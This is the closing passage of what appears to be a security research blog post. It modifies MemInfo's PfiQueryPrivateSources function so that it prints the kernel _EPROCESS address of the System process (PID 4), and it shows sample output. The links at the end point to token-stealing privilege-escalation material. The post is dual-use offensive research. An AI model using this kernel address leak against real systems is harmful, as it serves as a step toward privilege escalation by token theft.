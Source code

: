 You can use `MmPrivateSources` content to retrieve `EProcess` value and print this information, for example just modifying **PfiQueryPrivateSources** function.  

Modified piece of code in Meminfo project :  

```cpp  
NTSTATUS PfiQueryPrivateSources() {
[ snip ]
if (MmPrivateSources->InfoArray[i].DbInfo.Type == PfsPrivateSourceProcess) {
			//
			// Do we already know about this process?
			//
			PPF_PROCESS Process;
			CLIENT_ID ClientId;
			OBJECT_ATTRIBUTES ObjectAttributes;
			Process = PfiFindProcess(reinterpret_cast<ULONGLONG>(MmPrivateSources->InfoArray[i].EProcess));
			// leak e_process kernel address of the System PID n°4
			if (MmPrivateSources->InfoArray[i].DbInfo.ProcessId == 4) {
				PVOID eprocessVA = MmPrivateSources->InfoArray[i].EProcess;
				printf("\t[+] Leak PID %-8d _EPROCESS virtual address : \t\t\t%08p\n", 4, eprocessVA);
			}
[ snip ]
}
```  

This will give you the following output for the famous "System" process (PID 4) :  

```
C:\>z:\MemInfo.exe  -p 4
MemInfo v3.10 - Show PFN database information
Copyright (C) 2007-2017 Alex Ionescu and Pavel Yosifovich
http://www.windows-internals.com

Initializing PFN database... Done.
        [+] Leak PID 4        _EPROCESS virtual address :                       FFFFB587C7661040
0x0000000000004000 Active      Non Paged Pool   0   N/A            0xFFFFF7C600001000 N/A

C:\>
```  

Optional : you can check with Windbg   

[![leak_eprocess_kernelAddress.png](/assets/uploads/2024/08/leak_eprocess_kernelAddress.png)](/assets/uploads/2024/08/leak_eprocess_kernelAddress.png)  


## End


[LINK1]: https://www.microsoftpressstore.com/store/windows-internals-part-1-system-architecture-processes-9780735684188    
[LINK3]: https://github.com/zodiacon/WindowsInternals/tree/master/MemInfo      
[LINK4]: https://github.com/zodiacon/WindowsInternals/blob/master/MemInfo/MemInfo.cpp#L922      
[LINK5]: https://www.mdsec.co.uk/2022/08/fourteen-ways-to-read-the-pid-for-the-local-security-authority-subsystem-service-lsass/  
[LINK6]: https://labs.nettitude.com/blog/vm-detection-tricks-part-1-physical-memory-resource-maps/  
[LINK7]: https://www.outflank.nl/blog/2023/12/14/mapping-virtual-to-physical-adresses-using-superfetch/  
[LINK8]: https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-code-reference2  
[LINK14]: https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria  
[LINK16]: https://v1k1ngfr.github.io/windows-internal-meminfo/  
[LINK17]: https://connormcgarr.github.io/paging/
[LINK18]: https://v1k1ngfr.github.io/windows-internal-meminfo/#troubleshoot-remaining-problems
[LINK19]: https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/how-kernel-exploits-abuse-tokens-for-privilege-escalation
[LINK20]: https://github.com/v1k1ngfr/winkernel/blob/master/win10x64kernelstealtoken.asm